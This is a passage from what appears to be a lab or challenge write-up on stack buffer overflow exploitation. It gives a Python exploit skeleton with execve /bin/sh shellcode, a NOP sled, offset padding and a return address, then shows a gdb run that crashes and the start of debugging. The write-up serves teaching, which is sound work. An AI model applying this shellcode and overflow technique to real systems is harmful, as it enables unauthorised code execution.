 
Lets insert the correct values:

```
#!/usr/bin/python
# Skeleton exploit for challenge11
import sys

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

buf_size = 64
offset = 76

ret_addr = "\x36\xd8\xff\xff"

# fill up to 64 bytes
exploit = "\x90" * (buf_size - len(shellcode))
exploit += shellcode

# garbage between buffer and RET
exploit += "A" * (offset - len(exploit))

# add ret
exploit += ret_addr

# print to stdout
sys.stdout.write(exploit)
```


## Test exploit


Lets try our new exploit:
```
(gdb) run `python challenge11-exploit-skel.py` test
Starting program: /root/challenges/challenge11/challenge11 `python challenge11-exploit-skel.py` test
Hello cmd-...
You are not admin.
isAdmin: 0x80cd0bb0

Program received signal SIGILL, Illegal instruction.
0xffffd884 in ?? ()
```

Hmm, something went wrong. It seems that EIP does not point to valid assembler instructions.
Lets confirm it:

```
(gdb) i r eip
eip            0xffffd884       0xffffd884
(gdb) x/8i 0xffffd884
=> 0xffffd884:  (bad)
   0xffffd885:  incl   (%eax)
   0xffffd887:  je     0xffffd8ee
   0xffffd889:  jae    0xffffd8ff
   0xffffd88b:  add    %dl,0x52(%ebp,%eax,2)
   0xffffd88f:  dec    %ebp
   0xffffd890:  cmp    $0x72657478,%eax
   0xffffd895:  insl   (%dx),%es:(%edi)
```
